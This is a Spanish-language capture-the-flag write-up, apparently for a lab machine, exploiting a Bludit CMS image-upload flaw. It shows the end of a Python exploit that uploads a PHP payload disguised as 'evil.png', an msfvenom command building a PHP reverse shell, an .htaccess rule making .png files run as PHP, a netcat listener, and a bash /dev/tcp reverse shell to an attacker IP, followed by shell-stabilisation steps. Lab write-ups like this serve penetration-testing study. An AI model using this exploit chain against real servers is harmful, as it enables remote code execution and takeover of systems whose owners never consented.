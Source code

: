 ```python
               "Accept-Language":"es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding":"gzip, deflate",
    }
    cookies = {"BLUDIT-KEY":cookie}
    response = session.post(url + "/admin/ajax/upload-images", data=data, files=files, headers=headers, cookies=cookies)
    print("Uploading payload: " + payload)
# Creamos una variable que sea una peticion a la ruta del archivo malicioso para que se ejecute a nivel de sistema por peticon GET HTTP
    r = session.get(url + "/bl-content/tmp/temp/evil.png" )

if __name__ == "__main__":

    cookie = login(url, username, password)
    token = get_csrf_token(url, cookie)
    upload_evil_image(url, cookie, token, payload, True)
    upload_evil_image(url, cookie, token, payload2)
```
Con este script tenemos que crearnos dos archivitos especificados en los pasos arriba, setear los datos que nos pide. Lo hacemos
``` 
# msfvenom -p php/reverse_php LHOST=10.10.15.4 LPORT=443 -f raw -b '"' > evil.png

[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 2 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 4053 (iteration=0)
php/base64 chosen with final size 4053
Payload size: 4053 bytes                                                                                                       
                                                                                                          
# echo -e "<?php $(cat evil.png)" > "evil.png" 
                                                                                                          
# echo "RewriteEngine off" > ".htaccess"                                               
# echo "AddType application/x-httpd-php .png" >> ".htaccess"
``` 

Lo siguiente es ponerse a la escucha con netcat
```bash
$" nc -lvnp 443 "
```
Ejecutamos el exploit y recibimos las shell, pero resulta que tenemos que enviarnos otra reverse_shell con el comando
```bash
$ " bash -c 'bash -i >& /dev/tcp/10.10.15.4/444 0>&1'     "
``` 
Conseguimos una `Reverse-Shell` como `www-data` en el puerto 444
Hacemos un tratamiento de la `tty`
```bash
$ script /dev/null -c bash
$ ctrl Z
$ stty raw -echo; fg
$ reset
$ xterm
$ export TERM=xterm
$ export SHELL=bash
```
Configuramos las rows y columns, chequeando con `stty -a`en nuestra terminal
`$ stty rows 51 columns 181`
